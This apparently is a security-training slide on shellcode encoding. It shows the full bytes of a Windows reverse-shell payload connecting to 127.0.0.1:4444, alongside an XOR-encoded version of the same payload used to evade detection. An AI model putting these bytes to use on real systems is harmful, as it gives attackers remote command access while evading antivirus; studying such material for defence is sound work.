

SHELLCODE ENCODING
ORIGINAL
ENCODED
FC E8 82 00 00 00 60 89 E5 31 C0 64 8B 50 30 8B 52 0C 8B 52 14 8B 72 28 0F B7 4A 26 31 FF AC 3C 61 7C 02 2C 20 C1 CF 0D 01 C7 E2 F2 52 57 8B 52 10 8B 4A 3C 8B 4C 11 78 E3 48 01 D1 51 8B 59 20 01 D3 8B 49 18 E3 3A 49 8B 34 8B 01 D6 31 FF AC C1 CF 0D 01 C7 38 E0 75 F6 03 7D F8 3B 7D 24 75 E4 58 8B 58 24 01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0 89 44 24 24 5B 5B 61 59 5A 51 FF E0 5F 5F 5A 8B 12 EB 8D 5D 68 33 32 00 00 68 77 73 32 5F 54 68 4C 77 26 07 FF D5 B8 90 01 00 00 29 C4 54 50 68 29 80 6B 00 FF D5 50 50 50 50 40 50 40 50 68 EA 0F DF E0 FF D5 97 6A 05 68 7F 00 00 01 68 02 00 11 5C 89 E6 6A 10 56 57 68 99 A5 74 61 FF D5 85 C0 74 0C FF 4E 08 75 EC 68 F0 B5 A2 56 FF D5 68 63 6D 64 00 89 E3 57 57 57 31 F6 6A 12 59 56 E2 FD 66 C7 44 24 3C 01 01 8D 44 24 10 C6 00 44 54 50 56 56 56 46 56 4E 56 56 53 56 68 79 CC 3F 86 FF D5 89 E0 4E 56 46 FF 30 68 08 87 1D 60 FF D5 BB F0 B5 A2 56 68 A6 95 BD 9D FF D5 3C 06 7C 0A 80 FB E0 75 05 BB 47 13 72 6F 6A 00 53 FF D5
dd c9 a3 21 21 21 41 a8 c4 10 e1 45 aa 71 11 aa 73 2d aa 73 35 aa 53 09 2e 96 6b 07 10 de 8d 1d 40 5d 23 0d 01 e0 ee 2c 20 e6 c3 d3 73 76 aa 73 31 aa 6b 1d aa 6d 30 59 c2 69 20 f0 70 aa 78 01 20 f2 aa 68 39 c2 1b 68 aa 15 aa 20 f7 10 de 8d e0 ee 2c 20 e6 19 c1 54 d7 22 5c d9 1a 5c 05 54 c5 79 aa 79 05 20 f2 47 aa 2d 6a aa 79 3d 20 f2 aa 25 aa 20 f1 a8 65 05 05 7a 7a 40 78 7b 70 de c1 7e 7e 7b aa 33 ca ac 7c 49 12 13 21 21 49 56 52 13 7e 75 49 6d 56 07 26 de f4 99 b1 20 21 21 08 e5 75 71 49 08 a1 4a 21 de f4 71 71 71 71 61 71 61 71 49 cb 2e fe c1 de f4 b6 4b 24 49 5e 21 21 20 49 23 21 30 7d a8 c7 4b 31 77 76 49 b8 84 55 40 de f4 a4 e1 55 2d de 6f 29 54 cd 49 d1 94 83 77 de f4 49 42 4c 45 21 a8 c2 76 76 76 10 d7 4b 33 78 77 c3 dc 47 e6 65 05 1d 20 20 ac 65 05 31 e7 21 65 75 71 77 77 77 67 77 6f 77 77 72 77 49 58 ed 1e a7 de f4 a8 c1 b1 77 67 de 11 49 29 a6 3c 41 de f4 9a d1 94 83 77 49 87 b4 9c bc de f4 1d 27 5d 2b a1 da c1 54 24 9a 66 32 53 4e 4b 21 72 b1 b1